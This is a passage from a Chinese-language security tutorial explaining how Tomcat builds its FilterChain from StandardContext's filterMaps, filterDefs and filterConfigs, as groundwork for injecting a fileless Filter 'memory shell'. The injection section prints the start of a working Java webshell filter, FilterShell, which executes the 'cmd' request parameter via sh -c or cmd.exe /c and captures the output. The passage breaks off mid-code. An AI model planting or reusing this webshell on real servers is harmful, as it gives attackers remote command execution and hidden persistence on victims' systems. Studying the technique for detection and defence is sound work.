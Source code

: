  filterMaps 变量：含有所有 filter 的 URL 映射关系

    filterDefs 变量： 含有所有 filter 包括实例在内等变量

    filterConfigs 变量：含有所有与 filter 对应的 filterDef 信息及 filter 实例，并对 filter 进行管理

**五、**FilterChain 过滤链的创建及调用过程？****

续接上述内容，我们来看

org.apache.catalina.core.ApplicationFilterChain#createFilterChain()，FilterChain 的创建过程。

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1kofvicEr2WoaWvZaT4lC260N7bkCbyNrib6Mm02SHibauT5dxTU66rMlA/640?wx_fmt=png)

图 14  createFilterChain() 方法入口  

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1AibInM0vKiawyBhrMOVmJHCqKSuzR1bp5zNibdLxsmQNJibd0a2l7tjqrw/640?wx_fmt=png)

图 15  createFilterChain() 方法细节  

  获取 StandardContext 对象，关键部分在第二红框内，遍历 StandardContext.filterMaps 得到 filter 与 URL 的映射关系并通过 matchDispatcher()、matchFilterURL() 方法进行匹配，匹配成功后，还需判断 StandardContext.filterConfigs 中，是否存在对应 filter 的实例，当实例不为空时通过 addFilter 方法，将管理 filter 实例的 filterConfig 添加入 filterChain 对象中。

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF157icP8xrR7PHp27DdU2GnVKcVU5tK9HiaBAwxILBMZjEWyrnEZtiaFYNQ/640?wx_fmt=png)

图 16  调用过滤链  

  当遍历结束后，返回 filterChain 对象至 StandardWrapperValue 实例，并调用 filterChain.doFilter() 方法，对请求或响应进行过滤操作。

**六、**Filter 内存马的注入****

花了老半天功夫终于来到了最关心的地方。经过一系列分析，得知 createFilterChain() 通过遍历 filterMaps，根据请求的 URL 在 filterMaps 中匹配 filter，并在 filterConfigs 中找到 filter 的实例，最终创建 filterChain。因此，我们只需要向 StandardContext 实例的 filterMaps、filterDefs、filterConfigs 中添加恶意 Filter 相关参数，即可完成 Filter 马的注入。

> 借鉴于 potatso 前辈《tomcat 结合 shiro 无文件 webshell 的技术研究以及检测方法》
> 
> https://mp.weixin.qq.com/s/fFYTRrSMjHnPBPIaVn9qMg

1. 编写恶意 Filter 类，转化为字节码并进行 Base64 编码（java8 后提供 java.util.Base64）  

```
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.util.Scanner;

public class FilterShell implements Filter{

public void init(FilterConfig filterConfig) throws ServletException {
    }

public void doFilter(ServletRequest request, ServletResponse response, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
if (req.getParameter("cmd") != null) {
boolean isLinux = true;
String osTyp = System.getProperty("os.name");
if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\A");
String output = s.hasNext() ? s.next() : "";
```